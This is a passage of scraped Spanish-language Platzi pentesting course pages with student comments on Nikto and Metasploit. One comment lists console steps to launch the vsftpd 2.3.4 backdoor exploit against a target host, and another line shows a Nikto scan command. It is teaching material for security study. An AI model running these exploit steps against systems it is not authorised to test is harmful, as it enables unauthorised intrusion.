 	nikto -h ipdestino

* **GT7** (1) [974835](https://platzi.com/comentario/974835/) 

	Nikto!

## 0240. Explotación de vulnerabilidades con Metasploit [22427](https://platzi.com/clases/1669-pentesting/22427-explotacion-de-vulnerabilidades-con-metasploit/)

### Descripción:


 **Metasploit** es un framework para desarrollo y prueba de exploits que aprovecha diferentes vulnerabilidades. Utiliza una gran base de datos donde encuentras payloads y exploits que puedes usar dependiendo de las debilidades encontradas.

### Comentarios:

* **Walter Lensinas** (5) [872763](https://platzi.com/comentario/872763/) 

	Comandos:
	
	* Iniciar por las dudas el servidor de base de datos: `service postgresql start`
	* Iniciar metasploit: `msfconsole`
	* Buscar exploits con `search nombreexploit`
	* Usar el exploit: use exploit/unix/ftp/vsftpd_234_backdoor`
	* Setear el target: `set RHOST IP`
	* Ejecutar el exploit: `run`
	
	

* **Luis Carlos Kristen Ospitia** (1) [1082473](https://platzi.com/comentario/1082473/) 

	yo tuve un problema de que no podia leer un archivo --bundler/ setup; Aqui les dejo la solucion
	
	sudo gem update --system
	
	sudo gem install bundler:1.17.3
	
	continuan con
	
	cd /usr/share/metasploit-framework
	
	sudo bundle install
	
	por ultimo damos el comando #msfconsole

* **Esteban Blanco Ortuno** (1) [761562](https://platzi.com/comentario/761562/) 

	 **Metasploit** – software (framework) que sirve para ejecutar exploits aprovenchando diferentes vulnerabilidades.
	
	**Exploit** – software que sirve para usar contra S.O. software o protocolo para poderlo usar de forma para la que no fue programada.

## 0250. Arquitectura de Metasploit [22411](https://platzi.com/clases/1669-pentesting/22411-arquitectura-de-metasploit/)
